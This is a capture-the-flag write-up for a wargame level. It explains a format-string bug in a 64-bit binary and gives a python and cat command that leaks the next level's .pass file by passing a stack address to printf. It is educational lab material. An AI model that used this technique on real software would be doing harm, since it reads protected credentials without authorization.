 # LEVEL02

## EXPLANATIONS

### BINARY BEHAVIOR

- binary is compiled for 64bits architecture
- only function main :
  - 3 buffers :
    - username <= stdin
    - password <= stdin
    - pass <= file level03/.pass
- printf(buf_username) format string exploit

### EXPLOIT STRATEGY

- format string inside username_buf
- address of pass_buf inside password_buf

- When program does a printf on "buf_username", it will print the string inside buf_pass
  - => It's level03 .pass file
- align stack inside/outside gdb
- bypass opening of .pass file inside gdb by updating string with level02 pass file
  - set {char [26]}string_addr="/home/users/level02/.pass"

### RUN COMMAND

```
python -c "print('%8\$s' + '\n' + '\x00\x00\x7f\xff\xff\xff\xec\xb0'[::-1])" > /tmp/exploit_string
cat /tmp/exploit_string - | env - PWD=$PWD /home/users/level02/level02
```

